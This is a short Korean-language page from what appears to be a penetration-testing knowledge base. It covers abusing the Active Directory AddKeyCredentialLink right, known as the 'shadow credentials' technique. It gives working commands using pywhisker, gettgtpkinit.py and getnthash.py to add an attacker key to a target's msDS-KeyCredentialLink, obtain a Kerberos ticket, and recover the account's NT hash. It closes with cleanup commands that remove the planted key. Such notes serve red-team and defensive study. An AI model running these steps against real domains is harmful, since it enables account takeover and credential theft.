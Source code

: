 # AddKeyCredentialLink

* 대상의 `msDS-KeyCredentialLink` 특성을 수정할 수 있는 권한. 공격자는 새로운 public/private key 페어를 만든 뒤, 해당 특성에 만들어놓은 public key를 추가한다. 이는 추후 ADCS 등을 이용한 PKINIT 사용자 인증에 사용되며, 공격자는 이를 통해 대상 계정을 장악할 수 있게 된다.
* 블러드하운드 Edge



<figure><img src="../../.gitbook/assets/msds-KeyCredentialLink.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/bh-addkeycrednetiallink.png" alt=""><figcaption></figcaption></figure>

## 악용 - 컴퓨터, 유저

* 대상의 `msDS-KeyCredentialLink` 에 공격자의 public key 를 추가해 PKINIT 사용자 인증을 할 때 공격자의 public key 를 사용하게끔 한다. 이를 이용해 대상 계정을 장악한 후, NT Hash 를 얻을 수 있게 된다. 머신 계정와 유저 계정 모두 같은 방법으로 장악 가능하다.

```
# Pywhisker 를 통한 msDS-KeyCredentialLink 수정. 
# 이때, DeviceID, PFX filename, PFX Password 를 따로 기록해놓는다. 
pywhisker.py -d domain.local -u controlledAccount -p pass --target targetAccount --action add

python3 gettgtpkinit.py -cert-pfx <pfx> -pfx-pass <pass> domain.com/target target.ccache
export KRB5CCNAME=target.ccache
python3 getnthash.py -key <AS-REP Encryption key> domain.com/target
```

## 유의점

* 대상의 `msDS-KeyCredentialLink` 를 수정하고 공격자 public key 를 추가하기 때문에, 공격이 끝난 뒤 추가해놨던 공격자의 키를 제거하도록 한다.
* 위 pywhisker 를 사용했을 때의 DeviceID 가 여기서 사용된다.

```
# 공격자로서 추가했던 DeviceID만 삭제 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action remove -D <DeviceID>

# 확인 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action list
```



